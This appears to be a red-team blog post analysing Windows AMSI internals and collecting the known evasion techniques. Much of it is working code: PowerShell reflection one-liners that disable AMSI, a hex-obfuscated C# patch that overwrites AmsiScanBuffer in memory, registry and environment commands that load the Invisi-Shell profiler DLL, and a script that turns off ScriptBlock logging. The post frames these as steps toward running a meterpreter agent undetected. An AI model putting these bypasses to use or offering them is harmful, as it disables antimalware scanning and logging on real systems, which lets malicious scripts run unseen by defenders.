

_**Apr xx, 2019**_

## Antimalware Scan Interface (AMSI) — A Red Team Analysis on Detection and Evasion

In this post we will analyze how AMSI works and recap existing known bypasses.

## Overview

The Antimalware Scan Interface (AMSI) is a Microsoft Windows protection system built to defend the computer from attacks performed via scripted languages, such as PowerShell, VBScript, JavaScript, _et cetera_. [1]
It works by analyzing scripts before the execution, in order to determine if the script is malicious or not.
Moreover, it's designed to detect obfuscated malware by being called recursevely on every evalutation step.
If we think about a typical obfuscated script, they decode and decompress themselves in memory till the final payload is ready to be executed.

## Internals

By being called at every code evaluation points, like `Invoke-Expression`, AMSI can examine both intermediate and final versions of the original, obfuscated script.
In this way, simple techniques to avoid an initial, static screening are not effective anymore.
The function responsible to decide if the script is allowed to run or not is called `AmsiScanBuffer`.
For example, PowerShell will call this function every time is about to evaluate any PowerShell scripts.
The `AmsiScanBuffer` function comes from `amsi.dll`, loaded in the memory process along all the other userspace libraries.
In fact, `amsi.dll` itself it's a userspace library and this has the consequence of being exposed to a number of attacks.



Check out [Omer Yair's talk](https://www.youtube.com/watch?v=Y3oMEiySxcc) about AMSI and [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell). [8] [9]

The implementation of function `ScanContent` starts like this:

```c#
internal unsafe static AmsiUtils.AmsiNativeMethods.AMSI_RESULT ScanContent(string content, string sourceMetadata)
{
    if (string.IsNullOrEmpty(sourceMetadata))
    {
        sourceMetadata = string.Empty;
    }

    if (InternalTestHooks.UseDebugAmsiImplementation && content.IndexOf("X5O!P%@AP[4\\PZX54(P^)7CC)7}$EICAR-STANDARD-ANTIVIRUS-TEST-FILE!$H+H*", StringComparison.Ordinal) >= 0)
    {
        return AmsiUtils.AmsiNativeMethods.AMSI_RESULT.AMSI_RESULT_DETECTED;
    }

    if (AmsiUtils.amsiInitFailed)
    {
        return AmsiUtils.AmsiNativeMethods.AMSI_RESULT.AMSI_RESULT_NOT_DETECTED;
    }

...
# call to AmsiScanBuffer()
...
}
```

The code is pretty descriptive itself and we can already notice some important details:

1. if the input is empty, `AMSI_RESULT_NOT_DETECTED` is returned to indicate that the sample is not considered malicious.

1. `AMSI_RESULT_DETECTED` is returned when the content is considered malicious, as we can see from the string comparison with the [EICAR test file](https://en.wikipedia.org/wiki/EICAR_test_file).

1. if the `amsiInitFailed` field is set, `AMSI_RESULT_NOT_DETECTED` is returned to indicate that the sample is not considered malicious.

1. otherwise the function continues with its detection logic.

## Known Bypasses

All the known bypasses are based on the fact that the AMSI DLL is loaded in the userspace.

### Forcing an error

If we are able to force an error inside AMSI, the protected field `amsiInitField` will be set and AMSI won't be called anymore.

```powershell
$mem = [System.Runtime.InteropServices.Marshal]::AllocHGlobal(9076)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiSession","NonPublic,Static").SetValue($null, $null)
[Ref].Assembly.GetType("System.Management.Automation.AmsiUtils").GetField("amsiContext","NonPublic,Static").SetValue($null, [IntPtr]$mem)
```

### Setting amsiInitFailed to $true

[@mattifestation](https://twitter.com/mattifestation) bypass is so short to fit into a [tweet](https://twitter.com/mattifestation/status/735261176745988096). [3]

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

The `amsi.dll` instance loaded has a private field called `amsiInitFailed`.
It's not directly exposed due to the fact that the field is private, but thanks to the [.NET Reflection API](https://docs.microsoft.com/en-us/dotnet/framework/reflection-and-codedom/reflection) we can access it.
By setting it at `$true` we can successfully disable AMSI and `amsi.dll`'s `AmsiScanBuffer` won't be called anymore.

```powershell
$amsi = [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils') # get `amsi.dll` handle
$field = $amsi.GetField('amsiInitFailed','NonPublic,Static') # get `amsiInitFailed` field
$field.SetValue($null,$true) # set it to `$true`
Write-host -ForegroundColor green "AMSI won't be called anymore"
```

### Patching AmsiScanBuffer

It's also possible to _monkeypatch_ at runtime the `amsi.dll` code. In particular, we are interested in patching the function `AmsiScanBuffer`. We can overwrite the logic of this function by making them always return `S_OK`, as when the command is allowed to run.


In order to do that we can craft a malicious DLL to load at runtime that will patch on the fly the `amsi.dll` in our memory space. There are multiple versions of this specific bypass, I will report the latest `C#` version.

```powershell
# Add-Type writes *.cs on disk!!
$id = get-random;
$Ref = (
    "System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
    "System.Runtime.InteropServices, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b03f5f7f11d50a3a"
);

$Source = @"
using System;
using System.Runtime.InteropServices;
namespace Bypass
{
    public class AMSI$id
    {
        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);
        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        [DllImport("Kernel32.dll", EntryPoint = "RtlMoveMemory", SetLastError = false)]
        static extern void MoveMemory(IntPtr dest, IntPtr src, int size);
        public static int Disable()
        {
            string hexbuffer = "41 6d 73 69 53 63 61 6e 42 75 66 66 65 72";
            string buffer="";
            string[] hexbuffersplit = hexbuffer.Split(' ');
            foreach (String hex in hexbuffersplit)
            {
                int value = Convert.ToInt32(hex, 16);
                buffer+= Char.ConvertFromUtf32(value);
            }
            IntPtr Address = GetProcAddress(LoadLibrary("a"+ "msi"+ ".dl" +"l"), buffer);
            UIntPtr size = (UIntPtr)5;
            uint p = 0;
            VirtualProtect(Address, size, 0x40, out p);
            byte c1=0xB8,c2=0x80;
            Byte[] Patch = {c1, 0x57, 0x00, 0x07, c2, 0xC3 };
            IntPtr unmanagedPointer = Marshal.AllocHGlobal(6);
            Marshal.Copy(Patch, 0, unmanagedPointer, 6);
            MoveMemory(Address, unmanagedPointer, 6);
            return 0;
        }
    }
}
"@;

Add-Type -ReferencedAssemblies $Ref -TypeDefinition $Source -Language CSharp;
iex "[Bypass.AMSI$id]::Disable() | Out-Null"
Write-host -ForegroundColor green "AMSI won't be called anymore"
```

Be aware that using `Add-Type` to compile on the fly `C#` in PowerShell code will touch the disk, dropping some `*.cs` to a temporary directory during the compilation phase.

### Hooking .NET Framework via CLR

Another powerful technique is based on hooking at runtime the .NET Framework via CLR Profiler API, as seen in [Invisi-Shell](https://github.com/OmerYa/Invisi-Shell) by Omer Yiar.
This project is able to bypass all the protection mechanisms of PowerShell, that are Script Block Log, Module Logging, Transcription and AMSI.
Using CLR Profiler APIs, `Invisi-Shell` is able to hook .NET assemblies [10] and disable any kind of protection mechanisms by always overwriting the input length attribute with `0`. As we saw above, if the input is empty, `AMSI_RESULT_NOT_DETECTED` will be returned and the same logic applies to every other security mechanisms.
The only downside of this techinique is that you have to drop a DLL on disk, in order to be loaded by the CLR Profiler APIs. There are two ways of loading the DLL:

1. via ENV variables (**admin required**)

```cmd
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}
set COR_PROFILER_PATH=%~dp0InvisiShellProfiler.dll

powershell
```

2. via the Registry (**any user**)

```cmd
set COR_ENABLE_PROFILING=1
set COR_PROFILER={cf0d821e-299b-5307-a3d8-b283c03916db}

REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /f
REG ADD "HKCU\Software\Classes\CLSID\{cf0d821e-299b-5307-a3d8-b283c03916db}\InprocServer32" /ve /t REG_SZ /d "%~dp0InvisiShellProfiler.dll" /f

powershell
```

The PowerShell terminal that appears will have all the protection mechanisms disabled.
For more info regarding the internals, I forward you to his amazing [DerbyCon talk](https://www.youtube.com/watch?v=Y3oMEiySxcc). [9]

## Weaponization

Let's see how we can use this technique in order to spawn a meterpreter agent on the target machine.
We need to do two things in order to do that:

1. disable logging on disk
2. load the AMSI bypass

### Disable ScriptBlockLog

First of all, in order to avoid to be detected after having disabled AMSI, we need to be sure that no logs of our commands are saved on disk, otherwise the AV will spot our activity. There is a public known bypass to disable the built-in `ScriptBlockLog` mechanism of PowerShell.

```powershell
$GPF=[ref].Assembly.GetType('System.Management.Automation.Utils').GetField('cachedGroupPolicySettings','N'+'onPublic,Static');
If($GPF){
    $GPC=$GPF.GetValue($null);
    If($GPC['ScriptB'+'lockLogging']){
        $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockLogging']=0;
        $GPC['ScriptB'+'lockLogging']['EnableScriptB'+'lockInvocationLogging']=0
    }
    $val=[Collections.Generic.Dictionary[string,System.Object]]::new();
    $val.Add('EnableScriptB'+'lockLogging',0);
    $val.Add('EnableScriptB'+'lockInvocationLogging',0);
    $GPC['HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\PowerShell\ScriptB'+'lockLogging']=$val
} Else {
    [ScriptBlock].GetField('signatures','N'+'onPublic,Static').SetValue($null,(New-Object Collections.Generic.HashSet[string]))
}
```

It works by doing two things:

1. disable global logging of scripts: if Domain Admins enable global logging of scripts, every script will be recorded on disk. To disable it we just overwrite the in memory representation of the Group Policy Settings.
2. replace the dictionary of known signatures with an empty one: some signatures always trigger a log action, even if the Script Block Logging mechanism is not enabled via Group Policy (_sic!_). In order to disable it, we replace this dictionary of known signatures with an empty one, always in our memory space.

### Meterpreter

_TODO_

[PR](https://github.com/rapid7/rex-powershell/pull/17)


## References

1. [https://docs.microsoft.com/en-us/windows/desktop/amsi/antimalware-scan-interface-portal](https://docs.microsoft.com/en-us/windows/desktop/amsi/antimalware-scan-interface-portal)
2. [https://docs.microsoft.com/en-us/windows/desktop/api/amsi/nf-amsi-amsiscanbuffer](https://docs.microsoft.com/en-us/windows/desktop/api/amsi/nf-amsi-amsiscanbuffer)
3. [https://twitter.com/mattifestation/status/735261176745988096](https://twitter.com/mattifestation/status/735261176745988096)
4. [https://www.cyberark.com/threat-research-blog/amsi-bypass-patching-technique/](https://www.cyberark.com/threat-research-blog/amsi-bypass-patching-technique/)
5. [https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/](https://www.cyberark.com/threat-research-blog/amsi-bypass-redux/)
6. [https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html](https://0x00-0x00.github.io/research/2018/10/28/How-to-bypass-AMSI-and-Execute-ANY-malicious-powershell-code.html)
7. [https://rastamouse.me/2018/11/amsiscanbuffer-bypass-part-3/](https://rastamouse.me/2018/11/amsiscanbuffer-bypass-part-3/)
8. [https://github.com/OmerYa/Invisi-Shell](https://github.com/OmerYa/Invisi-Shell)
9. [https://www.youtube.com/watch?v=Y3oMEiySxcc](https://www.youtube.com/watch?v=Y3oMEiySxcc)
10. [https://arxiv.org/abs/1709.07508](https://arxiv.org/abs/1709.07508)
11. [https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/](https://www.mdsec.co.uk/2018/06/exploring-powershell-amsi-and-logging-evasion/)
12. [https://github.com/d0nkeys/redteam/blob/master/code-execution/Invoke-Bypass.ps1](https://github.com/d0nkeys/redteam/blob/master/code-execution/Invoke-Bypass.ps1)
13. [https://github.com/cobbr/PSAmsi](https://github.com/cobbr/PSAmsi)
14. [https://www.youtube.com/watch?v=rEFyalXfQWk](https://www.youtube.com/watch?v=rEFyalXfQWk)
15. [https://github.com/OmerYa/Babel-Shellfish](https://github.com/OmerYa/Babel-Shellfish)
16. [https://en.wikipedia.org/wiki/EICAR_test_file](https://en.wikipedia.org/wiki/EICAR_test_file)

[back](../)
